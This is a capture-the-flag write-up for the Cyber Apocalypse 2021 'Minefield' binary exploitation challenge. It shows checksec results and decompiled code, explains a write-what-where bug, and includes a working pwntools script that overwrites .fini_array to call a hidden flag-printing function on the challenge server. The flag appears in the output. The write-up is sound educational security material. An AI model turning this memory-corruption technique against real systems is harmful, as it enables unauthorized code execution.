 # Cyber Apocalypse 2021

## Minefield

> We found one of the core power plants that drain all of our resources. One member of our team is an expert at mines. Plant the correct type of mine at the correct location to blow up the entire power plant, but be careful, otherwise we are all doomed!
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_mindfield.zip`](`pwn_mindfield.zip`)

Tags: _pwn_ _x86-64_ _write-what-where_


## Summary

One-shot _write-what-where_ to overwrite `.fini_array` with _win_ function.

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No RELRO--every time it's `.fini_array`.

Basically overwrite `.fini_array` with a _win_ function if it exists (or grow your own).


### Decompile with Ghidra

```c
void mission(undefined8 param_1,void *param_2,undefined8 param_3,char *param_4,int param_5, int param_6)
{
  ulonglong *puVar1;
  ulonglong uVar2;
  int extraout_EDX;
  int extraout_EDX_00;
  void *pvVar3;
  long in_FS_OFFSET;
  char local_24 [10];
  char local_1a [10];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(local_24,param_2,extraout_EDX,param_4,param_5,param_6);
  pvVar3 = (void *)0x0;
  puVar1 = (ulonglong *)strtoull(local_24,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(local_1a,pvVar3,extraout_EDX_00,param_4,param_5,param_6);
  puts("We need to get out of here as soon as possible. Run!");
  uVar2 = strtoull(local_1a,(char **)0x0,0);
  *puVar1 = uVar2;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

`*puVar1 = uVar2;` is a _write-what-where_.

```
void _(void)
{
  long lVar1;
  size_t __n;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  __n = strlen(&DAT_00400ccc);
  write(1,&DAT_00400ccc,__n);
  system("cat flag*");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

And there's the _win_ function.  I actually missed this in Ghidra; why I always run `objdump -M intel -d` as well.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./minefield')

if args.REMOTE:
    p = remote('206.189.121.131',32732)
else:
    p = process(binary.path)

p.sendlineafter('> ','2')
p.sendlineafter('mine: ',hex(binary.get_section_by_name('.fini_array').header.sh_addr))
p.sendlineafter('plant: ',hex(binary.sym._))
print(p.recvuntil('}').decode())
```

Overwrite `.fini_array` with the location of the function `_`.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/mindfield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 206.189.121.131 on port 32732: Done
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{d3struct0r5_m1n3f13ld}
```

